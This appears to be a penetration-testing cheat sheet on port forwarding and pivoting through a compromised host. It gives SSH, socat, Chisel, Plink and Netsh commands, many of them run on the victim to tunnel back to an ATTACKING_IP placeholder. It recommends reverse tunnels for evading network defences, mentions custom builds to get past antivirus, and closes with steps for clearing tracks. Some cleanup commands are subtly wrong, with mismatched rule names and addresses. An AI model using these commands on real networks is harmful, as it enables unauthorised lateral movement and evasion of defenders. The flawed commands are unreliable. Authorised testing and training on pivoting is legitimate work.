

# Port Forwarding

## Theory

Port forwarding involves using any compromised host as a Jump Box to pivot to other hosts to which we do not have direct access from our attacking host. We configure the compromised host to listen on a port and relay all packets received on that port to another destination (and vice versa for a remote forward).

<figure><figcaption><p>Example of Network layout in a Classic Port Forwarding Scenario  </p></figcaption></figure>

There are fore main types of port forwarding:

* **Local port forwarding**:  Open a local port on the compromised server and redirect incoming traffic to an other port on the same host or to a different host in a remote network.
* **Remote port forwarding**: Open a local port on our attacking server and redirect incoming traffic to a port on a remote machine through a compromised intermediary machine (the Jump Box).
* **Dynamic port forwarding (Forward Proxy)**: tunnel the whole attacker's network traffic (instead of only one port) through the compromised machine opened SOCKS port.
* **Remote dynamic port forwarding (Reverse Proxy)**: tunnel the whole network traffic from a remote machine through the attacker's machine SOCKS port.

In brief, while in local and dynamic port forwarding, the listening port is bound to the client, in remote port forwarding and remote dynamic port forwarding, the listening port is bound to the server. It should be noted that **we prefer to use remote techniques**, which will open the port on our attacking machine and have a greater chance of **evading network defences**.

## Practice

### SSH tunneling

By using a SSH client with an OpenSSH server, it's possible to create both forward (local) and reverse (remote) connections to make [SSH tunnels](portfwd.md#ssh-tunneling), allowing us to forward ports, and/or create proxies.

* **SSH Local Forwarding:** Open a local port on the SSH client and redirect incoming traffic from that port to a specific port through the SSH tunnel established with the server.
* **SHH Remote forwarding:** Open a remote port on the SSH server and redirect incoming traffic from that port to a specific port through the SSH tunnel established with the server.
* **SSH Dynamic port forwarding (Forward Proxy)**: The SSH client creates a local SOCKS proxy server port to tunnel the whole attacker's network traffic&#x20;
* **SSH Reverse dynamic port forwarding (Reverse Proxy)**: The SSH client creates a remote SOCKS proxy server port on the SSH server to tunnel the whole attacker's network traffic&#x20;


Microsoft has introduced its native implementation of the OpenSSH server for Windows. So this technique may works with both UNIX and Windows servers/clients.




This example opens a connection to the jump-server.net, and forwards any connection to port 80 on the local machine (attacking machine) to port 80 of intra.example.com.

```bash
# -L : Specify a local port forwarding
#      [bind_address]:attacking_host_local_port:destination_ip:destination_local_port
# -f : Backgrounds the shell immediately
# -N : Don't execute any commands
veresk@kali$ ssh -L *:80:intra.example.com:80 user@jump-server.net -fN
```



On the compromised computer (Jump Box), we can connect back to the attacking machine with a reverse port forward using the following command, this example produce the same result as previously seen with Local Forwarding. Any connection on `ATTACKING_IP:8000` will be redirected on `intra.example.com:80`

```bash
PC> ssh -R 8000:intra.example.com:80 tunneluser@ATTACKING_IP -i KEYFILE -o StrictHostKeyChecking=no -fN
```


Since we'll be making a connection back to our attacking machine, we'll create a user with limited console access for tunneling and assign a dedicated password for tunnel management.

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```



Ensure to generate SSH keys for the tunnel user, and subsequently, add the generated public key to both the `authorized_keys` file and the Jump Box.




its possible to create a **Dynamic Port Forwarding (Forward proxy)** using SSH.&#x20;

For example, by using the following command on our attacking host, SOCKS port `9090` will be opened on our attacking machine. Traffic sent via this port will be pushed through the SSH tunnel to the Jump Host, then forwarded wherever they are addressed.

```bash
# -D : dynamic port forward
# [BIND_IP:BIND_PORT]
v4resk@kali$ ssh -D 127.0.0.1:9090 user@jump-server.net -fN
```

Once configured, you can use `proxychains` on your attacking host to run applications through the proxy network connections.

```bash
proxychains nmap -sT --top-ports=20 -Pn -n <IP_ACCESSIBLE_FROM_JUMP_BOX>
```


A little reminder on how to config ProxyChains. In this example, we just have to add the following line to `/etc/proxychains.conf`:

```bash
socks5 127.0.0.1 9090
```




In newer versions of the SSH client, it is also possible to create a **Remote Dynamic Port Forwarding (Reverse Proxy)**.


This feature is available since OpenSSH 7.6. Despite this, only the OpenSSH client needs to be at version 7.6 or above to make it works.


By using this command on the compromised host (Jump Box), SOCKS port `9090` will be opened on our attacking machine (the SSH server). Traffic sent via this port will be pushed through the SSH tunnel to the Jump Box, then forwarded wherever they are addressed.

```bash
PC> ssh -R 9090 tunneluser@ATTACKING_IP -fN -i KEYFILE -o StrictHostKeyChecking=no
```

Once configured, you can use `proxychains` on your attacking host to run applications through the proxy network connections.

```bash
proxychains nmap -sT --top-ports=20 -Pn -n <IP_ACCESSIBLE_FROM_JUMP_BOX>
```


A little reminder on how to config ProxyChains. In this example, we just have to add the following line to `/etc/proxychains.conf`:

```bash
socks5 127.0.0.1 9090
```




### SOCAT

We can use static binaries of socat to pivot, they are easy to find for both [Linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\_64/socat) and [Windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86\_64.zip/download).


Windows version is unlikely to bypass Antivirus software by default, so custom compilation may be required.




Setting up a **Local port forward** with SOCAT involves opening a listening port on the compromised server and redirecting incoming traffic to a target server.

Using this command on the Jump-Box will open port 33060 on it, and forward any connection from this port to port 3306 on 172.16.0.10.

```bash
PC> ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```



Setting up a **reverse port forwarding** with SOCAT involves to redirect any local traffic from a port of our attacking server to a port on a remote machine via the compromised machine (Jump Box).

This example will forward any traffic from `localhost:8000`, on our attacking machine, to `172.16.0.10:80` trough the compromised Jump Box.

First of all, on our attacking machine, we issue the following command:

```bash
# Creating a local port relay. 
v4resk@kali$ ./socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

Next, on the compromised machine (Jump Box) we execute this command.&#x20;

```bash
# Create a link between port 8000 on our attacking machine, and port 80 on the intended target
# tcp:ATTACKING_IP:ATTACKING_PORT tcp:TARGET_IP:TARGET_PORT,fork &
PC> ./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```


This method doesn't require opening up a port on the compromised server.




### CHISEL

[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). It tunnels connections within the HTTP protocol and uses the SSH protocol within this tunnel to encrypt our data.



Setting up a **Reverse Proxy** involves connecting from the compromised server to a listener on the attacking machine. Then, the Chisel client (Jump Box) opens/creates a remote SOCKS proxy server port on the Chisel Server (Attacking Host).

On the attacking host:

```bash
v4resk@kali$ ./chisel server -p LISTEN_PORT --reverse &
```

On the compromised host, after uploading chisel, we use the following command:

```bash
www-data@pwned.lab$ ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

Once configured, you can use `proxychains` on your attacking host to run applications through the proxy network connections.

```bash
proxychains nmap -sT --top-ports=20 -Pn -n <IP_ACCESSIBLE_FROM_JUMP_BOX>
```


A little reminder on how to config ProxyChains with Chisel. We just have to add the following line to `/etc/proxychains.conf`:

```bash
socks5 127.0.0.1 1080
```




Setting up a **Forward Proxy** involves connecting from the attacking host to a listener on the compromised machine (Jump Box). Then, the Chisel client creates a local SOCKS proxy server port.

On the compromised host, we would use the following command:

```bash
www-data@pwned.lab$ ./chisel server -p LISTEN_PORT --socks5
```

On the attacking host, using the following command, we will open the local `PROXY_PORT` port on our attacking host.

```bash
v4resk@kali$ ./chisel client TARGET_IP:LISTEN_PORT LOCAL_PROXY_PORT:socks
```

Like with the reverse proxy, you can use `proxychains` to run applications through the proxy network connection.


**Forward proxies are less common than reverse proxies** for the same reason as why reverse shells are more prevalent than bind shells. In broad terms, outbound traffic managed by egress firewalls tends to be subjected to less strict controls than inbound connections regulated by ingress firewalls.




A **Remote Port Forward** is when we connect from the Jump Box to a chisel server listening on the attacking machine, and open a listening port for forwarding on that server.

To do a reverse port forwarding with chisel, we can do as follow:

```bash
v4resk@kali$ ./chisel server -p LISTEN_PORT --reverse &
```

On the compromised host, we would use the following command. It will forward every requests sent to 8889 on the attacking host to the compromised host on localhost:6666

```bash
# ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT 
www-data@pwned.lab$ ./chisel client ATTACKING_IP:LISTEN_PORT R:8889:localhost:6666
```



A Local Port Forward is when we connect from our own attacking machine to a chisel server listening on a compromised target,  and open a local listening port for forwarding.

On the compromised target (jump box) we set up a chisel server:

```bash
PC> .\chisel server -p LISTEN_PORT
```

On the attacking host, we would use the following command. It will connect to the compromised host running a chisel server, forwarding our local port `2222` to `172.16.0.10:22` (our intended target).

```bash
# LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
v4resk@kali$ ./chisel client JUMP_BOX_IP:LISTEN_PORT 2222:172.16.0.10:22
```



## PLINK

[Plink.exe](https://www.chiark.greenend.org.uk/\~sgtatham/putty/latest.html) is a Windows command line version of the PuTTY SSH client. Now that Windows comes with its own inbuilt SSH client, plink is less useful for modern servers; however, it is still a very useful tool.



To create a reverse connection, we can execute the following command on our compromised host (Jump Box).

As with SSH Remote Forwarding, any connection on `ATTACKING_IP:8000` will be redirected on `172.16.0.10:80`.

```powershell
# -R LOCAL_PORT:TARGET_IP:TARGET_PORT
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 tunneluser@ATTACKING_IP -i KEYFILE -N
```


Since we'll be making a connection back to our attacking machine, we'll create a user with limited console access for tunneling and assign a dedicated password for tunnel management.

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```



Ensure to generate SSH keys for the tunneluser, and subsequently, add the generated public key to both the `authorized_keys` file and the Jump Box.

To generate a Plink usable private key, we can use following bash commands

```bash
# Generate SSH keys
ssh-keygen

# Convert the private key for Plink
puttygen private_key -o private_key.ppk
```




## Netsh

On windows target, we can perform port forwarding using the the built-in firewall configuration tool [Netsh](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/netsh) (also known as Network Shell).


On windows, Netsh requires administrative privileges to create a port forward.




We can setup a Local Port Forward using the Netsh commands on the compromised host (Jump Box).

The following command will open the local port `2222` on the Jump Box, and forward any connection from it to `192.168.50.44:22`.

```bash
# Create the Port Foward
netsh interface portproxy add v4tov4 listenport=2222 connectaddress=192.168.50.44 connectport=22

# Check if created
netsh interface portproxy show all
```

Then, we ensure that the connections will be allowed on firewall

```bash
netsh advfirewall firewall add rule name="PortForwarding 2222" dir=in action=allow protocol=TCP localport=2222
netsh advfirewall firewall add rule name="PortForwarding Out 2222" dir=out action=allow protocol=TCP localport=2222
```

After we successfully performed our port forwarding, we can clear our tracks like so.

```bash
# Remove Firewalls Rules
netsh advfirewall firewall delete rule name="PortForwarding 2222"
netsh advfirewall firewall delete rule name="PortForwarding 22"

# Remove Port Forwar Rule
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.44
```



## Resources






